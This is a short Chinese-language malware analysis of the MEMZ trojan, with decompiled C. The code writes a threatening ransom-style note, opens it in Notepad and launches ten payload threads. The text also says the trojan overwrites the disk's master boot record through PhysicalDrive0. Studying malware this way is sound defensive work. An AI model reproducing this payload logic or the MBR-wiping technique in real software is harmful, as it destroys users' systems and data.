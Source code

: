 使用 CreateFileA 函数打开主磁盘 PhysicalDrive0，并使用 WriteFile 函数覆盖掉 MBR。

##### 运行病毒出现的各种现象

```c
  v7 = CreateFileA("\\note.txt", 0xC0000000, 3u, 0, 2u, 0x80u, 0);
    if ( v7 == (HANDLE)-1 )
      ExitProcess(4u);
    if ( !WriteFile(
            v7,
            "YOUR COMPUTER HAS BEEN FUCKED BY THE MEMZ TROJAN.\r\n"
            "\r\n"
            "Your computer won't boot up again,\r\n"
            "so use it as long as you can!\r\n"
            "\r\n"
            ":D\r\n"
            "\r\n"
            "Trying to kill MEMZ will cause your system to be\r\n"
            "destroyed instantly, so don't try it :D",
            0xDAu,
            &NumberOfBytesWritten,
            0) )
      ExitProcess(5u);
    CloseHandle(v7);
    ShellExecuteA(0, 0, "notepad", "\\note.txt", 0, 10);
    v8 = 0;
    v9 = (DWORD *)&off_405130;
    do
    {
      Sleep(v9[1]);
      CreateThread(0, 0, sub_401A2B, v9, 0, 0);
      ++v8;
      v9 += 2;
    }
    while ( v8 < 0xA );
    while ( 1 )
      Sleep(0x2710u);
  }
```

创建一个`note.txt`文件，并写入内容，然后打开`note.txt`文件

接下来，创建 10 个线程，每个线程执行`sub_401A2B`函数，该函数会在屏幕上随机出现一些图标，并在图标上显示一些文字。

创建完之后，进入死循环，每 10 秒暂停一次

###### 进入 sub_401A2B 函数

```c
void __stdcall __noreturn sub_401A2B(int (__cdecl **lpThreadParameter)(int, int))
{
  int v1; // esi
  int v2; // ebx
  int i; // edi

  v1 = 0;
  v2 = 0;
  for ( i = 0; ; ++i )
  {
    if ( !v1-- )
      v1 = (*lpThreadParameter)(v2++, i);
    Sleep(0xAu);
  }
}
```
